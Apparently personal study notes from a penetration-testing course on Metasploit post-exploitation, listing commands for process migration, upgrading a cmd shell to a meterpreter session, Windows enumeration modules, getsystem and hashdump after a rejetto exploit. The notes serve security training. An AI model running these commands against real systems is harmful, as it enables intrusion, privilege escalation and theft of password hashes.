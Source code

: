 `ps`
`migrate 580`
`migrate -N apache2`
-> list out the process can migrate to depending on priveledges

`execute -f ifconfig`

### Upgrading cmd shell to meterpreter shell

demo:
/samba/is_known_pipename

post/multi/manage/shell_to_meterpreter
`set LHOST eth1`
`set sessions 1`

Another way
`sessions -u 1`
-> works on quite a few platforms automated ver of the prev method

🍰🎂🍰🎂🍰🎂🍰🎂🍰🎂🍰🎂🍰🎂🍰🎂🍰🎂🍰🎂🍰🎂🍰🎂🍰🎂



# Windows Post Exploit

## Post exploit modules:
1. Enumerate user privs
2. Enum logged on users
3. VM check
4. enum installed programs
5. enum AVs 
6. Computers connected to domain
7. Enum installed patches
8. Enum shares

Demo:
service postgresql start && msfconsole
rejetto exploit

`sysinfo`
`getuid`
`help`

`screenshot`
-> get a ss of the target cool

`getsystem`
`hashdump`
`show_mount`
`ps`
`migrate <pid of ps>`

/post/windows/manage/migrate --> same as migrate
/post/winows/gather/win_privs --> same as getprivs
